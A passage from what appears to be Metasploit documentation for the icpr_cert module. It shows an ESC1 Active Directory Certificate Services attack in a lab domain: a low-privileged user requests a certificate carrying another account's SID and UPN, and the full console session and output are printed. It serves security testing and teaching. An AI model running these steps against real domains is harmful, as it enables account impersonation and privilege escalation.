 SID is not specified in the certificate, then Kerberos authentication will fail with `KDC_ERR_CERTIFICATE_MISMATCH`.

The user must know:

* A vulnerable certificate template, in this case `ESC1-Test`.
* The SID of a target account, in this case `S-1-5-21-3402587289-1488798532-3618296993-1000`
* The UPN of a target account, in this case `smcintyre@msflab.local`.

See [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) section on ESC1 for more
information.

```msf
msf > use auxiliary/admin/dcerpc/icpr_cert
msf auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Test
CERT_TEMPLATE => ESC1-Test
msf auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN smcintyre@msflab.local
ALT_UPN => smcintyre@msflab.local
msf auxiliary(admin/dcerpc/icpr_cert) > set VERBOSE true
VERBOSE => true
msf auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate for user aliddle - alternate UPN: smcintyre@msflab.local - digest algorithm: SHA256 - template: ESC1-Test
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230608111432_default_192.168.159.10_windows.ad.cs_029062.pfx
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/icpr_cert) > 
```

### Issue A Certificate With The *Any Purpose* EKU (AKA ESC2)
In this scenario, an authenticated user exploits a misconfiguration allowing them to issue a certificate from a template
that either contains the **Any Purpose** EKU or no EKUs at all.


[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16